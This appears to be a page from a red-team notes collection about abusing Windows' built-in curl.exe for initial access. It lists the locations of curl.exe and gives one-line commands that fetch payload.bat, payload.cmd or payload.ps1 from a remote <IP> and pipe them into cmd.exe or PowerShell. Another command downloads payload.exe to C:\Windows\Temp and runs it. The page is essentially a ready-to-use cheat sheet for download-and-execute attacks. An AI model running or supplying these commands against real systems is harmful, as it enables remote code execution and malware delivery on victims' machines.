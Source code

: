 # cURL

## 01 - Common Files

```
C:\Windows\System32\curl.exe
C:\Windows\SysWOW64\curl.exe
```

## 02 - Execute Payloads

### 2.1 - Fileless Code Execution

```
C:\> curl.exe http[s]://<IP>/payload.bat | cmd.exe

C:\> curl.exe http[s]://<IP>/payload.cmd | cmd.exe

C:\> curl.exe http[s]://<IP>/payload.ps1 | powershell.exe
```

### 2.2 - Dropping On Disk

Download payload and execute it.

```
C:\> curl.exe -o C:\Windows\Temp\payload.exe http[s]://<IP>/payload.exe & C:\Windows\Temp\payload.exe
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xB - Client-Side Attacks/Delivery Methods/Command and Scripting Interpreter/Desktop/Windows/Code Execution/Batch]]